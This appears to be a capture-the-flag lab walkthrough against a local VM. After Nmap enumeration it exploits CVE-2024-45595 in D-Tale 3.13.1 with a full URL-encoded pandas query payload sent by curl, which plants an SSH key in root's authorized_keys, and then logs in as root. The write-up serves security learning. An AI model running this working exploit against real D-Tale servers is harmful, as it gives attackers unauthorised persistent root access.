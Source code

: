 # Tale Walkthrough

## Enumeration

Nmap scan

```
┌──(vagrant㉿kali)-[~/ugc/tale]
└─$ nmap -Pn -sC -sV -oN scan.txt 192.168.215.129
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 05:48 EDT
Nmap scan report for 192.168.215.129
Host is up (0.0010s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9c:a8:af:f5:d5:3e:c0:f2:8f:ef:fc:d6:05:4e:dd:ff (RSA)
|   256 85:9a:fd:d3:8e:cd:e7:32:aa:87:c0:76:80:8e:be:63 (ECDSA)
|_  256 4a:49:ea:5a:27:87:0f:69:a1:7d:57:0f:0a:9f:ea:4c (ED25519)
MAC Address: 00:0C:29:59:DC:12 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.26 seconds
```

```
┌──(vagrant㉿kali)-[~/ugc/tale]
└─$ nmap -Pn -sC -sV -oN scan.txt 192.168.215.129 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 05:53 EDT
Nmap scan report for 192.168.215.129
Host is up (0.00086s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9c:a8:af:f5:d5:3e:c0:f2:8f:ef:fc:d6:05:4e:dd:ff (RSA)
|   256 85:9a:fd:d3:8e:cd:e7:32:aa:87:c0:76:80:8e:be:63 (ECDSA)
|_  256 4a:49:ea:5a:27:87:0f:69:a1:7d:57:0f:0a:9f:ea:4c (ED25519)
40000/tcp open  safetynetp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/3.0.4 Python/3.8.10
|     Date: Mon, 07 Oct 2024 09:55:33 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 213
|     Location: /dtale/main/1
|     Vary: Accept-Encoding
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/dtale/main/1">/dtale/main/1</a>. If not, click the link.
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.4 Python/3.8.10
|     Date: Mon, 07 Oct 2024 09:55:33 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Vary: Accept-Encoding
|     Content-Length: 0
|     Connection: close
|   Help:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port40000-TCP:V=7.94SVN%I=7%D=10/7%Time=6703B015%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,1B6,"HTTP/1\.1\x20302\x20FOUND\r\nServer:\x20Werkzeug/3\.0
SF:\.4\x20Python/3\.8\.10\r\nDate:\x20Mon,\x2007\x20Oct\x202024\x2009:55:3
SF:3\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Len
SF:gth:\x20213\r\nLocation:\x20/dtale/main/1\r\nVary:\x20Accept-Encoding\r
SF:\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n<t
SF:itle>Redirecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20s
SF:hould\x20be\x20redirected\x20automatically\x20to\x20the\x20target\x20UR
SF:L:\x20<a\x20href=\"/dtale/main/1\">/dtale/main/1</a>\.\x20If\x20not,\x2
SF:0click\x20the\x20link\.\n")%r(HTTPOptions,DE,"HTTP/1\.1\x20200\x20OK\r\
SF:nServer:\x20Werkzeug/3\.0\.4\x20Python/3\.8\.10\r\nDate:\x20Mon,\x2007\
SF:x20Oct\x202024\x2009:55:33\x20GMT\r\nContent-Type:\x20text/html;\x20cha
SF:rset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x20OPTIONS\r\nVary:\x20Accept-Enc
SF:oding\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(RTSPR
SF:equest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.
SF:01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www\.w3\.org/TR/html
SF:4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\"text/html;
SF:charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20respo
SF:nse</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20HTTP
SF:Status\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupport
SF:ed\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(Help,1EF,"<!
SF:DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\
SF:">\n<html>\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<me
SF:ta\x20http-equiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\
SF:">\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\
SF:x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p
SF:>Error\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:
SF:\x20Bad\x20request\x20syntax\x20\('HELP'\)\.</p>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\
SF:x20-\x20Bad\x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n
SF:\x20\x20\x20\x20</body>\n</html>\n");
MAC Address: 00:0C:29:59:DC:12 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.21 seconds
```

During the initial Nmap scan, only port 22 (SSH) appeared open. However, after conducting a full port scan, we discovered that port 40000 (HTTP) was also open. Further enumeration revealed the application running on this port was D-Tale version 3.13.1 (as seen on the "About" page). Researching known vulnerabilities for this version, we identified [CVE-2024-45595](https://www.cve.org/CVERecord?id=CVE-2024-45595), which could potentially be exploited.

> D-Tale is a visualizer for Pandas data structures. Users hosting D-Tale publicly can be vulnerable to remote code execution allowing attackers to run malicious code on the server. Users should upgrade to version 3.14.1 where the "Custom Filter" input is turned off by default.

## Exploitation

Leveraging the Proof-of-Concept (PoC) from the following references, [Snyk Security Advisory](https://security.snyk.io/vuln/SNYK-PYTHON-DTALE-7926878) and [Unauthenticated Remote Command Execution via Panda df.query](https://rumbling-slice-eb0.notion.site/Unauthenticated-Remote-Command-Execution-via-Panda-df-query-9dc40f0477ee4b65806de7921876c222?pvs=4), we adapted the exploit to insert our SSH key into the root user's authorized keys, enabling persistent access.

```python
@pd.core.frame.com.builtins.__import__("os").system(""" echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGVrsbqi33eEjUFHmuflO6exRWcNHtz3bRl9hbYPEBOA vagrant@kali' >> /root/.ssh/authorized_keys #""")
```

We then URL-encoded the modified payload, ensuring that every character, including safe characters, was encoded to maintain proper formatting and execution.

```
import urllib.parse

def url_encode_all(input_string):
    return ''.join('%{:02X}'.format(ord(char)) for char in input_string)

if __name__ == "__main__":
    # Example input
    input_string = input("Enter the string to URL-encode: ")
    
    # Encode the string
    encoded_string = url_encode_all(input_string)
    
    print(f"Encoded string: {encoded_string}")

```

```
┌──(vagrant㉿kali)-[~/ugc/tale]
└─$ python3 url_encode.py
Enter the string to URL-encode: @pd.core.frame.com.builtins.__import__("os").system(""" echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGVrsbqi33eEjUFHmuflO6exRWcNHtz3bRl9hbYPEBOA vagrant@kali' >> /root/.ssh/authorized_keys #""")
Encoded string: %40%70%64%2E%63%6F%72%65%2E%66%72%61%6D%65%2E%63%6F%6D%2E%62%75%69%6C%74%69%6E%73%2E%5F%5F%69%6D%70%6F%72%74%5F%5F%28%22%6F%73%22%29%2E%73%79%73%74%65%6D%28%22%22%22%20%65%63%68%6F%20%27%73%73%68%2D%65%64%32%35%35%31%39%20%41%41%41%41%43%33%4E%7A%61%43%31%6C%5A%44%49%31%4E%54%45%35%41%41%41%41%49%47%56%72%73%62%71%69%33%33%65%45%6A%55%46%48%6D%75%66%6C%4F%36%65%78%52%57%63%4E%48%74%7A%33%62%52%6C%39%68%62%59%50%45%42%4F%41%20%76%61%67%72%61%6E%74%40%6B%61%6C%69%27%20%3E%3E%20%2F%72%6F%6F%74%2F%2E%73%73%68%2F%61%75%74%68%6F%72%69%7A%65%64%5F%6B%65%79%73%20%23%22%22%22%29
```

Next, start a listener on your attacker machine, and execute the following HTTP GET request:

```
curl -X GET 'http://192.168.215.129:40000/dtale/chart-data/1?query=%40%70%64%2E%63%6F%72%65%2E%66%72%61%6D%65%2E%63%6F%6D%2E%62%75%69%6C%74%69%6E%73%2E%5F%5F%69%6D%70%6F%72%74%5F%5F%28%22%6F%73%22%29%2E%73%79%73%74%65%6D%28%22%22%22%20%65%63%68%6F%20%27%73%73%68%2D%65%64%32%35%35%31%39%20%41%41%41%41%43%33%4E%7A%61%43%31%6C%5A%44%49%31%4E%54%45%35%41%41%41%41%49%47%56%72%73%62%71%69%33%33%65%45%6A%55%46%48%6D%75%66%6C%4F%36%65%78%52%57%63%4E%48%74%7A%33%62%52%6C%39%68%62%59%50%45%42%4F%41%20%76%61%67%72%61%6E%74%40%6B%61%6C%69%27%20%3E%3E%20%2F%72%6F%6F%74%2F%2E%73%73%68%2F%61%75%74%68%6F%72%69%7A%65%64%5F%6B%65%79%73%20%23%22%22%22%29'
```

Afterward, log in as root via SSH using the previously added SSH key for authentication.

```
┌──(vagrant㉿kali)-[~/ugc/tale]
└─$ ssh root@192.168.215.129
The authenticity of host '192.168.215.129 (192.168.215.129)' can't be established.
ED25519 key fingerprint is SHA256:fVKoeT0zGvb4WekUMMffwF+dEvlEmxBb/mLstI7ZTKI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.215.129' (ED25519) to the list of known hosts.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@tale:~# whoami
root
root@tale:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tale:~# cat proof.txt
23f...cd4
root@tale:~#
```

## Escalation

None